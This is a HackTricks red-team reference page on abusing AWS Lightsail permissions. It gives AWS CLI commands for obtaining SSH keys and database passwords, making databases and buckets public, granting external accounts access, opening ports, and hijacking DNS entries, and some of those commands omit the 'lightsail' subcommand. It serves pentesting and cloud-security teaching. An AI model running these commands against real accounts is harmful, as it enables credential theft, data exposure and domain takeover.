 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

For more information about Lightsail check:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
It’s important to note that Lightsail **doesn’t use IAM roles belonging to the user** but to an AWS managed account, so you can’t abuse this service to privesc. However, **sensitive data** such as code, API keys and database info could be found in this service.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

This permission will allow you to get the SSH keys to access the instances:

```
aws lightsail download-default-key-pair
```

**Potential Impact:** Find sensitive info inside the instances.

### `lightsail:GetInstanceAccessDetails`

This permission will allow you to generate SSH keys to access the instances:

```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```

**Potential Impact:** Find sensitive info inside the instances.

### `lightsail:CreateBucketAccessKey`

This permission will allow you to get a key to access the bucket:

```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```

**Potential Impact:** Find sensitive info inside the bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

This permission will allow you to get the credentials to access the database:

```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```

**Potential Impact:** Find sensitive info inside the database.

### `lightsail:UpdateRelationalDatabase`

This permission will allow you to change the password to access the database:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

If the database isn't public, you could also make it public with this permissions with

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potential Impact:** Find sensitive info inside the database.

### `lightsail:OpenInstancePublicPorts`

This permission allow to open ports to the Internet

```bash
aws lightsail open-instance-public-ports \
    --instance-name MEAN-2 \
    --port-info fromPort=22,protocol=TCP,toPort=22
```

**Potential Impact:** Access sensitive ports.

### `lightsail:PutInstancePublicPorts`

This permission allow to open ports to the Internet. Note taht the call will close any port opened not specified on it.

```bash
aws lightsail put-instance-public-ports \
    --instance-name MEAN-2 \
    --port-infos fromPort=22,protocol=TCP,toPort=22
```

**Potential Impact:** Access sensitive ports.

### `lightsail:SetResourceAccessForBucket`

This permissions allows to give an instances access to a bucket without any extra credentials

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
    --resource-name <instance-name> \
    --bucket-name <bucket-name> \
    --access allow
```
{% endcode %}

**Potential Impact:** Potential new access to buckets with sensitive information.

### `lightsail:UpdateBucket`

With this permission an attacker could grant his own AWS account read access over buckets or even make the buckets public to everyone:

```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```

**Potential Impact:** Potential new access to buckets with sensitive information.

### `lightsail:UpdateContainerService`

With this permissions an attacker could grant access to private ECRs from the containers service

```bash
aws update-container-service \
    --service-name <name> \
    --private-registry-access ecrImagePullerRole={isActive=boolean}
```

**Potential Impact:** Get sensitive information from private ECR

### `lightsail:CreateDomainEntry`

An attacker with this permission could create subdomain and point it to his own IP address (subdomain takeover), or craft a SPF record that allows him so spoof emails from the domain, or even set the main domain his own IP address.

```bash
aws lightsail create-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Potential Impact:** Takeover a domain

### `lightsail:UpdateDomainEntry`

An attacker with this permission could create subdomain and point it to his own IP address (subdomain takeover), or craft a SPF record that allows him so spoof emails from the domain, or even set the main domain his own IP address.

```bash
aws lightsail update-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Potential Impact:** Takeover a domain

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
